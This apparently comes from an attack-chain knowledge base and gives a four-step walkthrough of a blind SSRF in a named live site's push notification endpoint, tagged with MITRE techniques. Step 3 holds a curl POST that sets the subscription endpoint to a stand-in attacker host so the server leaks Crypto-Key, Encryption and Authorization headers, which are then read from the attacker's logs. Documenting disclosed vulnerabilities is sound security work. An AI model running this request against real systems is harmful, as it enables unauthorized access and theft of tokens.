

---
tags:
  - ssrf
  - blind-ssrf
  - header-leak
  - push-notifications
  - web-vulnerability
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2024-10-01T00:00:00Z'
procedures:
  - '[[procedures/Login-to-Chaturbate-and-Obtain-Tokens]]'
  - '[[procedures/Craft-and-Send-SSRF-Push-Subscription-Request]]'
  - '[[procedures/Verify-SSRF-Exploitation-via-Attacker-Server]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T03:46:09.087Z'
description: >-
  A multi-step attack exploiting a blind SSRF vulnerability in Chaturbate's push
  notification subscription endpoint to leak sensitive headers like Crypto-Key,
  Encryption, and Authorization tokens.
skill_level: intermediate
impact_level: high
id: 62b7c8e3-b46f-4b8a-b7f9-7697e7223e0d
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Blind SSRF in Chaturbate Push Notifications Leading to Sensitive Header Leakage

Multi-stage attack chain demonstrating exploitation of a blind Server-Side Request Forgery (SSRF) vulnerability in Chaturbate's push notification subscription functionality at /notifications/update_push/. The attack allows an attacker to control the endpoint URL in the subscription payload, causing the server to forward requests to the attacker's server and leak sensitive headers such as Crypto-Key, Encryption, and Authorization tokens. While the leaked keys are browser-specific, the SSRF enables potential access to internal resources.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Web platform (Chaturbate.com)
- Required services: Push Notifications, Internal Web Server
- Network access: Internet access to Chaturbate and attacker-controlled server

### Initial Access Requirements

- Valid Chaturbate account credentials (username and password)
- Attacker-controlled domain or server to receive SSRF requests (e.g., via ngrok or VPS)
- No prior privileged access needed; public-facing endpoint

## Detailed Attack Procedures

### Step 1: Login to Chaturbate and Obtain Tokens
procedure: [[procedures/Login-to-Chaturbate-and-Obtain-Tokens]]

**Objective**: Authenticate to the target and acquire necessary session cookie and CSRF token for subsequent requests.

**Instructions**: Access Chaturbate.com and log in using valid credentials. Perform an action like viewing a profile to trigger a request that includes the CSRF token in cookies.

**Expected Output**: Valid session cookie and X-CSRFToken extracted from browser or proxy.

**Success Indicators**:
- Successful login confirmed by account dashboard access
- CSRF token visible in request headers or cookies

### Step 2: Trigger Request for Cookie and CSRF Token
procedure: [[procedures/Login-to-Chaturbate-and-Obtain-Tokens]]

**Objective**: Ensure all authentication artifacts are captured for the exploit request.

**Instructions**: Click on a profile (e.g., https://chaturbate.com/princesscin/) or any action generating a POST request to capture the CSRF token.

**Expected Output**: Cookies and token logged in Burp Suite or browser dev tools.

**Success Indicators**:
- CSRF token obtained (e.g., X-CSRFToken: abc123)
- Session cookie active (e.g., Cookie: sessionid=xyz)

### Step 3: Send Crafted POST Request to Vulnerable Endpoint
procedure: [[procedures/Craft-and-Send-SSRF-Push-Subscription-Request]]

**Objective**: Exploit the SSRF by subscribing to push notifications with an attacker-controlled endpoint URL.

**Instructions**: Use Burp Suite Repeater to modify the POST request to /notifications/update_push/. Set the subscription.endpoint to your attacker URL (e.g., http://attacker-domain/wpush/v2/_facile?id=1) and include valid Cookie and X-CSRFToken. Execute [[commands/chaturbate-ssrf-push-subscription]] or manually send the request.

```bash
# Example using curl (adapt with real tokens)
curl -X POST https://chaturbate.com/notifications/update_push/ \
  -H "Cookie: YOURCOOKIEHERE" \
  -H "X-CSRFToken: YOURCSRFHERE" \
  -d 'subscription={"endpoint":"http://attacker-domain/wpush/v2/_facile?id=1","unsub":false}'
```

**Expected Output**: Server responds with 200 OK; attacker's server receives forwarded request.

**Success Indicators**:
- POST request succeeds without errors
- No immediate server-side rejection of the endpoint URL

### Step 4: Confirm SSRF by Checking Attacker's Server
procedure: [[procedures/Verify-SSRF-Exploitation-via-Attacker-Server]]

**Objective**: Validate the SSRF by inspecting leaked headers on the attacker's server.

**Instructions**: Access your server logs at the specified endpoint to view the incoming request, which should include leaked headers like Crypto-Key, Encryption, and Authorization.

**Expected Output**: Logs showing request from Chaturbate server with sensitive headers (e.g., Authorization: Bearer leaked_token).

**Success Indicators**:
- Incoming request received with internal headers
- Sensitive tokens visible in logs, confirming leakage

## Attack Chain Summary

### Key Achievements

1. Successful authentication and token acquisition without detection
2. SSRF exploitation via arbitrary endpoint control in push subscription
3. Leakage of browser-specific keys and potential internal resource access

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2024-10-01T00:00:00Z*
